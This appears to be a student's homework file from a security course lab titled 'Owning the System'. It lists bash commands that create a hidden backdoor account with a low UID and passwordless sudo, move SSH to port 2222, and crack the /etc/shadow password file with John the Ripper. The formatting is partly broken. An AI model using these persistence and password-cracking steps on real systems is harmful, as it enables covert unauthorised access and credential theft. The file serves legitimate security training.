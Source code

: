 ## Week 6 Homework Submission File: Advanced Bash - Owning the System


# **Step 1: Shadow People** (following commands run as root)

# Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
useradd -M sysd

# Give your secret user a password: 
passwd sysd

# Give your secret user a system UID < 1000:
usermod -u 998 sysd

# Give your secret user the same GID:
groupmod -g 998 sysd

# Give your secret user full `sudo` access without the need for a password:
usermod -aG sudo sysd

# Test that sudo access works without your password:

``su - sysd
sudo -l
sudo -vn && sudo -ln  
sudo whoami 
sudo /bin/kill 2213 ```


# Step 2: Smooth Sailing

# Edit the `sshd_config` file:

Port 22    ```
Port 2222
    ```

# Step 3: Testing Your Configuration Update

# Restart the SSH service:
sudo systemctl restart sshd.service


# Exit the root account:
exit


# SSH to the target machine using your sysd account and port 2222:
ssh sysd@192.168.6.105 -p 2222


# Use sudo to switch to the root user:
sudo su


# Step 4: Crack All the Passwords


# SSH back to the system using your sysd account and port 2222:
ssh sysd@192.168.6.105 -p 2222


# Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:


# To escalate privileges, ran command ‘visudo’ and added sysd user to file as below under User privileges and saved:
sysd    (ALL : ALL) ALL

# Command to crack passwords”
john /etc/shadow
